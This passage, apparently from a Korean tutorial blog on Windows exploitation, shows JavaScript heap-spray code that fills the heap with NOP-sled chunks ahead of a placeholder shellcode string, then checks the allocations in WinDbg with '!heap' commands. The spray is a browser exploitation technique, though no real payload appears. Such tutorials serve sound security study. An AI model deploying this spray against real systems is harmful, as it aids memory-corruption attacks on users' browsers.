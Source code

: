 	Shellcode = unescape('%u4148%u4B43');

	chunk = '';
	chunksize = 0x40000;
	num_chunk = 500;

	for(count=0; count < chunksize; count++){

		chunk += unescape('%u9090%u9090');
	}
	chunk = chunk.substring(0,chunksize - Shellcode.length);
	testArr = new Array();

	for (count=0; count < num_chunk; count++){
	 testArr[count] = Shellcode + chunk;
	}

	alert("Spray Done!");
	</script>
	</html>
	
chunk 크기를 0x40000으로 늘리고 chunk의 개수를 500개로 늘렸습니다.

이를 실행한 후 다시 위 과정을 반복해보면 다음과 같습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0d_12.png" | relative_url }}' alt='[그림 1-12]'>
</figure>

0x80010 크기로 1f5개가 할당되었고 99.33%만큼 힙에 뿌려진 것을 알 수 있습니다.

	
	!heap -flt s 0x80010
	
위 명령어로 0x80010 크기만큼 할당된 영역을 다시 확인해보면 아래와 같습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0d_13.png" | relative_url }}' alt='[그림 1-13]'>
</figure>

이 중 아무 위치나 선택해서 덤프해보겠습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0d_14.png" | relative_url }}' alt='[그림 1-14]'>
</figure>

0x80010만큼 할당되었다고 했기에 0x80000 위치쯤을 확인해보니 chunk 사이에 여전히 빈 공간이 남아있는 것을 알 수 있습니다.

!heap -flt s 0x080010으로 출력되었던 주소 간의 거리를 구해서 다시 출력해보니 아래와 같이 잘 출력이 되는 것이 보이네요.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0d_15.png" | relative_url }}' alt='[그림 1-15]'>
</figure>

역시나 빈 공간이 생긴다는 것은 어쩔 수 없는 것 같습니다.

하지만!! 우리가 할당한 각 chunk의 크기가 워낙 크고 많기 때문에 이 정도 수치는 무시하셔도 좋습니다.
